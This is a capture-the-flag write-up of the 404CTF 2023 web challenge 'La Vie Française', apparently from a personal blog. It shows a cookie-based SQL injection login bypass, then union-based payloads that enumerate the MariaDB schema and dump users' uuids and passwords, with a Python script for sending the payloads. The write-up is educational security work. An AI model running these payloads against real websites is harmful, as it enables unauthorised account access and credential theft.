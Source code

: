 ```yaml
---
title: CTFs | 404CTF2023 | Web | La Vie Française
author: Stillwolfing
date: 2023-06-05
categories: [CTFs, 404CTF2023, Web]
tags: [CTF, 404CTF2023, Web]
permalink: /CTFs/404CTF2023/web/la_vie_francaise
---
```


Here is the context:

![context](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/context.png)


By clicking the link, we end on the journal's website:

![home](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/home.png)

Let's try to postulate:

![register](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/register.png)

It's a register page. We register with a random username, "bipboup".

We are redirected to a login page:

![login](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/login.png)

After connecting, we are on our account page:

![account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/account.png)

We have got a cookie named "uuid" which identify us on the website.

![cookie](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/cookie.png)

I could not decrypt the cookie. I thought that maybe the cookie is stored in the database and the username is retrieved with an sql query that could look like.

```sql
select username from users where uuid = <uuid>;
```

Maybe the way the sql query is made is vulnerable to sql injections.

So I tried this:

I added "' or 1=1-- -" after the my cookie to try to select the first row.

![poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/poc.png)

It worked, I'm connected as Jacques Rival.

I created a script to craft my requests:

```python
import requests
from bs4 import BeautifulSoup

url = "https://la-vie-francaise.challenges.404ctf.fr/account"
sep = "0x207c20"

payload = f""

cookies = {'uuid': payload}

r = requests.get(url, cookies=cookies).text
r = r.replace(",", "\n")

if "Connexion" in r:
    print("Courage, tu y es presque !")
else:
    soup = BeautifulSoup(r, 'html.parser')
    print(soup.find("h3").text)
    print("Bravo !")

```

We just have to replace the payload with our payload.

I tried a union based sqli. I tried a request like:

```sql
' UNION SELECT 1-- -
```

I increased the number of row until I reach the good number of row of the query.

with:
```sql
' UNION SELECT 1, 2, 3-- -
```

I get this output:

![union_poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_poc.png)

Ok so we need 3 arguments and the first one is displayed on the screen.

Let's try to get the version of the database:

```sql
' UNION SELECT version(), 2, 3-- -
```

![union_version](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_version.png)

The engine is a MariaDB.

Let's get the tables under this database(There are more like system tables and other ones could be created).

```sql
' UNION SELECT group_concat(table_name), 2, 3 from information_schema.tables where table_schema=database()-- -
```

![union_table](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_table.png)

There is a table user. We need to know the columns of the table:

```sql
' UNION SELECT group_concat(column_name), 2, 3 from information_schema.columns where table_name='users'-- -
```

![union_columns](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_columns.png)

Now we can dump the table:

```sql
' UNION SELECT group_concat(uuid, {sep} , username, {sep}, password), 2, 3 from users-- -
```

![union_dump](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_dump.png)

We have madelaineforestier's password and uuid. We can connect using both.

Let's use the uuid:


![madelaine_forestier_account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/madelaine_forestier_account.png)

On the admin panel:

![flag](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/flag.png)

We've got the flag 🥳 !!

I hope you learned something through this writeup 😉

Oh wait, I almost forgot to flex !

![first_blood](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/first_blood.png)


